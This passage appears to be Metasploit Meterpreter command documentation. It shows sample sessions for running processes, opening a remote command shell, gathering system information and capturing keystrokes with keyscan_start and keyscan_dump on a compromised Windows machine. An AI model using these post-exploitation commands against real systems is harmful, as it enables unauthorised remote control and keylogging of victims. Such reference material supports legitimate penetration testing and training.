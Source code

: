 ```
meterpreter > getuid
Server username: WIN-6NH0Q8CJQVM\sinn3r
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following example will spawn a calculator:

```
meterpreter > execute -f calc.exe
Process 2020 created.
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt. Example:

```
meterpreter > shell
Process 2872 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\sinn3r\Desktop>
```

**sysinfo command**

The ```sysinfo``` command shows you basic information about the remote machine. Example:

```
meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > 
```

**keyscan command**

The ```keyscan_start``` command starts the keylogging feature on the remote machine.

**keyscan_dump command**

The ```keyscan_dump``` command is a keylogger feature. You must use the ```keyscan_start``` command
before using this. Example:

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
hello world!
meterpreter > 
```

